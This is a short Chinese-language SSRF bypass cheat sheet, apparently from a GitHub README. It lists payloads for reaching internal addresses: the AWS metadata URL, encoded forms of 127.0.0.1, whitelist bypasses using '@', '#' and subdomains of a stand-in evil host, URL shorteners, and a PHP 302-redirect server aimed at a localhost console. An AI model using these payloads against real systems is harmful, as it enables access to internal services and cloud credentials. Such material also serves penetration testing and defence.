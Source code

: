 - [SSRF-Cheatsheet](#ssrf-cheatsheet)
    - [AWS](#aws)
    - [进制转换](#进制转换)
    - [域名欺骗](#域名欺骗)
    - [编码大小写](#编码大小写)
    - [`@`绕过](#绕过)
    - [`#`绕过](#绕过-1)
    - [白名单子域名](#白名单子域名)
    - [302重定向](#302重定向)
    - [短地址](#短地址)
# SSRF-Cheatsheet
### AWS
URL:http://169.254.169.254/user-data/
### 进制转换
127.0.0.1 -> 2130706433 -> 017700000001 -> 127.1
### 域名欺骗
将恶意域名的ip解析为127.0.0.1。Tools:spoofed.burpcollaborator.net
### 编码大小写
将关键字符url编码或大小写混淆。
### `@`绕过
一些白名单中只是匹配了url的起始或者是否包含某些白名单关键字,可以使用url的一些来绕过.
* 通过RFC标准,url`@`前面的部分将会被视为用户密码,而`@`后面的部分才会被视为目标服务器. 
`https://whitelist-host@evil-host`
### `#`绕过
* 通过`#`锚点在恶意host中加入白名单host.
`https://evil-host#whitelist-host`
### 白名单子域名
在自己的域名下注册一个白名单host的恶意子域名.
* `https://whitelist-host.evil-host`
### 302重定向
因为很多防御措施都是在请求前对路径进行过滤和检测,如果该SSRF漏洞后端支持重定向的话则可以利用重定向来绕过很多黑名单,如果应用自身就存在Openredirection漏洞的话也可以绕过大部分白名单,先请求一个合法的远程服务器,通过控制远程服务器返回302状态码在location Header来再次请求任意地址.  

php快速搭建302跳转服务器,默认执行-t指定目录下的index.php.  
`php -s localhost:80 -t ./`  
```php
<?php
Header('Location: http://localhost:8080/console')
?>
```
### 短地址
百度短地址等等